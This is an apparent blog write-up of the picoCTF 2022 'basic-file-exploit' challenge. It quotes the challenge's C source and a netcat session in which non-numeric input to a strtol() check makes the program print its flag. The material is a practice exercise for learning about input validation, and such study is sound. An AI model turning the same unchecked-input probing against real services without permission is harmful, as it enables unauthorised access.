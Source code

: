 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
categories:
- ctfs
- pico22
- pwn
tags:
- pwn
description: "Learn how to pass unexpected datatypes into ELF binaries to break the code! This is my writeup for the picoCTF 2022 binary/pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: /asset/banner/banner-basic-file-exploit.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }

    .no-highlight {
        user-select: none;
        -moz-user-select: none;
        -webkit-user-select: none;
        -ms-user-select: none;
    }
</style>

<div class="box no-highlight">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="/asset/pico22/program-redacted.c">here</a>.<br><br>
<b>Author</b>: Will Hong<br>
<details><summary><b>Hint</b>:</summary><br>1. Try passing in things the program doesn't expect. Like a string instead of a number</details>
</div>

Let's run that `nc` command to see what's going on:

<figure class="highlight console"> <table> <tr> <td class="code"> <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc saturn.picoctf.net 50366</span></span><br><span class="line">Hi, welcome to my echo chamber!</span><br><span class="line">Type '1' to enter a phrase into our database</span><br><span class="line">Type '2' to echo a phrase in our database</span><br><span class="line">Type '3' to exit the program</span><br></pre> </td></tr></table></figure>

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, open `program-redacted.c` with `nano`:

<figure class="highlight console"> <table> <tr> <td class="code"> <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nano program-redacted.c</span></span><br></pre> </td></tr></table></figure>

Let's look for where the flag is redacted:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. We'll keep searching to see what prints this `const` to figure out how to trigger it on the serverside:

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if a specific condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertible into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

<figure class="highlight console"> <table> <tr> <td class="code"> <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc saturn.picoctf.net 50366</span></span><br><span class="line">Hi, welcome to my echo chamber!</span><br><span class="line">Type '1' to enter a phrase into our database</span><br><span class="line">Type '2' to echo a phrase in our database</span><br><span class="line">Type '3' to exit the program</span><br><span class="line">1</span><br><span class="line">1</span><br><span class="line">Please enter your data:</span><br><span class="line">hello</span><br><span class="line">hello</span><br><span class="line">Please enter the length of your data:</span><br><span class="line">5</span><br><span class="line">5</span><br><span class="line">Your entry number is: 1</span><br><span class="line">Write successful, would you like to do anything else?</span><br><span class="line">2</span><br><span class="line">2</span><br><span class="line">Please enter the entry number of your data:</span><br><span class="line">"NO!"</span><br><span class="line">"NO!"</span><br><span class="line">picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_<span style="color:#696969"><b>[REDACTED]</b></span>}</span><br></pre> </td></tr></table></figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
